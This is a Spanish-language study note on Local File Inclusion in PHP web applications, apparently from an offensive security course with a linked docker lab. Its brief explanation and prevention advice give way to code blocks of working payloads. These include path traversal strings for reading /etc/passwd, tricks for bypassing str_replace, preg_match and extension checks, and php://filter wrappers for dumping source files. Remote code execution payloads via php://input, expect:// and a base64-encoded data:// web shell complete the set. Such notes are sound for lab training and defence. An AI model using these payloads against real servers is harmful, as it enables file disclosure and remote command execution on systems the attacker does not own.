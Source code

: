 # LFI

Tags: #LFI #DirectoryPathTraversal 


La vulnerabilidad **Local File Inclusion** (**LFI**) es una vulnerabilidad de seguridad informática que se produce cuando una aplicación web **no valida adecuadamente** las entradas de usuario, permitiendo a un atacante **acceder a archivos locales** en el servidor web.

En muchos casos, los atacantes aprovechan la vulnerabilidad de LFI al abusar de parámetros de entrada en la aplicación web. Los parámetros de entrada son datos que los usuarios ingresan en la aplicación web, como las URL o los campos de formulario. Los atacantes pueden manipular los parámetros de entrada para incluir rutas de archivo local en la solicitud, lo que puede permitirles acceder a archivos en el servidor web. Esta técnica se conoce como “**Path Traversal**” y se utiliza comúnmente en ataques de LFI.

En el ataque de Path Traversal, el atacante utiliza caracteres especiales y caracteres de escape en los parámetros de entrada para navegar a través de los directorios del servidor web y acceder a archivos en ubicaciones sensibles del sistema.

Por ejemplo, el atacante podría incluir “**../**” en el parámetro de entrada para navegar hacia arriba en la estructura del directorio y acceder a archivos en ubicaciones sensibles del sistema.

Para prevenir los ataques LFI, es importante que los desarrolladores de aplicaciones web validen y filtren adecuadamente la entrada del usuario, limitando el acceso a los recursos del sistema y asegurándose de que los archivos sólo se puedan incluir desde ubicaciones permitidas. Además, las empresas deben implementar medidas de seguridad adecuadas, como el cifrado de archivos y la limitación del acceso de usuarios no autorizados a los recursos del sistema.

A continuación, se os proporciona el enlace directo a la herramienta que utilizamos al final de esta clase para abusar de los ‘**Filter Chains**‘ y conseguir así ejecución remota de comandos:

- **PHP Filter Chain Generator**: [https://github.com/synacktiv/php_filter_chain_generator](https://github.com/synacktiv/php_filter_chain_generator)
- [Lab-LFI](https://github.com/NetsecExplained/docker-labs)

```bash 
LFI  --> Incluyes archivos locales de la maquina como:
	1. /etc/passwd
	2. /etc/hosts
	3. /etc/hostname 

# Debemos de tener un parametro '?page=' para poder ver si existe el LFI

1. Se encuentran en CMS (Gestores de contenido) como WordPress
2. Plugins 

En el LFI podemos usar:
1. 'Path Traversal' para evadir algunos filtros 
2. Wrappers
```

## Path Traversal 

```bash 
# Como mejor practica son 6 '../'

❯ /etc/passwd                       # Desde la raiz cargamos el archivo 
❯ ../../../../etc/passwd            # Nos salimos de el dir y apuntamos al archivo 
❯ ....//....//....//etc/passwd      # Evitamos el filtro de 'str_replace' 

# Evitar el filtro 'preg_match' colocando barras y puntos
❯ /etc/////passwd                   # Colocar muchas barras hacer que no haga match 
❯ /etc//./passwd                              

# Si fuera un comando como 'cat' podriamos usar '?' para evadir el 'preg_match'
❯ /et?//??sswd 
❯ /??c/pas??? 

# Cuando se concatena una extension como '.php' al archivo a buscar, podemos usar un NULL Byte, esto sirve en versiones menores a 5.3 en PHP.
❯ /etc/passwd%00                    # Forma de colocar un 'Null Byte'

# Cuando existe un 'substr' en el codigo que hace match con alguna extension, podemos evadir el match de la siguiente manera
❯ /etc/test.txt/.                   # Colocaremos '/.' al final para que no exista el match con la extension '.txt'               
```

## Wrappers en la URL de la Web

```bash 
# Los Wrappers nos ayudan a interpretar el codigo y no a ejecutarlo 
# Archivos importantes que podemos encodear con el filtro 
a) index.php
b) admin/db_connect.php


1. # Este filtro nos ayuda a representar el contenido en base64 el cual su resultado lo guardamos en un archivo llamado 'data'
❯ php://filter/convert.base64-encode/resourse=
	❯ cat data | base64 -d | sponge data 
	# d = decodear la base64 
	# sponge = Para ingresar el output en el mismo archivo llamado 'data'

2. # Este wrapper rota cada caracter en 13 posiciones el cual su resultado lo guardamos en un archivo llamado 'data'
❯ php://filter/read=string.rot13/resource=
	❯ cat data | tr '[c-za-bC-ZA-B]' '[p-za-oP-ZA-O]'   # Debemos de empezar con la primer letra que nos aparezca en el output y en la segunda parte colocarnos en la treceaba posicion 

3. # Conversion a nivel de encoding para que no sea interpretado y se muestre en la web
❯ php://filter/convert.iconv.utf-8.utf-16/resource=
```

## Wrappers para hacer un RCE

```bash
# Metodo POST
❯ php://input                   # Debemos de cambiar la peticion a POST en 'Burpsuite' para lograr mandar comandos 
	<?php system('whoami'); ?> # Esto debe de ir en el cuerpo de 'Burpsuite' o el siguiente:
	<?php system($_GET["cmd"]); ?>


# Metodo GET
❯ expect://whoami               # Este wrapper ayuda a inyectar comandos 


# En este wrapper debemos de pasarle una cadena en base64, la cadena es el php de arriba que tiene system(GET)
❯ data://text;plain,base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8+
❯ data://text;plain,base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2b&cmd=whoami
	# + = %2b

# Si la cadena esta en base64, con este wrapper podemos decodificarlo
❯ php://filter/convert.base64-decode/resourse=
# Si al momento de usar el wrapper pasado nos regresa un error, podemos hacer lo siguiente:
❯ php://filter/convert.iconv.UTF8.UTF7|convert.base64-decode/resource=
```